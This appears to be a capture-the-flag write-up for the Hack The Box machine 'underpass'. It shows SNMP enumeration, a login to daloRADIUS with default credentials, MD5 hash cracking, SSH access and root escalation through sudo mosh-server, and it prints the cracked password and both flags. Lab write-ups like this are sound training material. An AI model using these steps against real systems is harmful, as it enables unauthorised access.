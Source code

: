 
HTB : [[Machines]]

**IP:** 10.10.11.48  
**Date:** 08/01/2025  

---

### **Enumeration**

#### **Nmap Scan Results**
- **Open Ports:**  
  - TCP 22: OpenSSH 8.9p1 (Ubuntu 3ubuntu0.10)  
  - TCP 80: Apache/2.4.52 (Outdated Version)  

- **UDP Scan on Port 161 (SNMP):**  
  - SNMPv1 server detected  
  - Net-SNMP SNMPv3 server with default community string (`public`)  

---

### **SNMP Enumeration**

Using the default SNMP community string `public`:
```bash
snmpwalk -v 1 -c public 10.10.11.48
```

#### **Results:**
- **System Information:**  
  - `iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"`

- **Admin Contact:**  
  - `iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"`

- **Hostname:**  
  - `iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"`

- **Location:**  
  - `iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"`

---

### **Web Server Discovery**
- **Apache Default Page:** Found at `http://underpass.htb`.  
- **Daloradius Login Page:** Found at `http://underpass.htb/daloradius/app/operators/login.php`.

#### **Default Credentials:**
Using the default Daloradius credentials:
```plaintext
Username: administrator  
Password: radius  
```
Access granted.

---

### **Exploitation**

#### **Discovered User: svcMosh**
From Daloradius, identified the existence of the `svcMosh` user and retrieved their hashed password:  
```plaintext
412dd4759978acfcc81deab01b382403
```

#### **Password Cracking:**
Using `hashcat`, the password was cracked:
```plaintext
underwaterfriends
```

#### **Gaining SSH Access:**
SSH into the server as `svcMosh`:
```bash
ssh svcMosh@underpass.htb
```

#### **User Flag:**
```plaintext
a7e8df8da8d1980a29aa88306de320f5
```

---

### **Privilege Escalation**

#### **Sudo Permissions:**
The `svcMosh` user has permission to run `/usr/bin/mosh-server` as `sudo`.

#### **Exploitation Command:**
Privilege escalation can be achieved using:
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

#### **Root Flag:**
After escalating to root:
```bash
root@underpass:~# cat root.txt
cc2d0fa21831180a33da0fdd267d0a02
```

---

### **Summary:**
1. **Enumeration:** Discovered open ports (22, 80, 161), outdated software, and misconfigured SNMP.  
2. **Exploitation:** Used Daloradius default credentials to obtain `svcMosh`'s MD5 password hash. Cracked the hash and gained SSH access.  
3. **Privilege Escalation:** Leveraged sudo permissions on `/usr/bin/mosh-server` to escalate to root.  

---











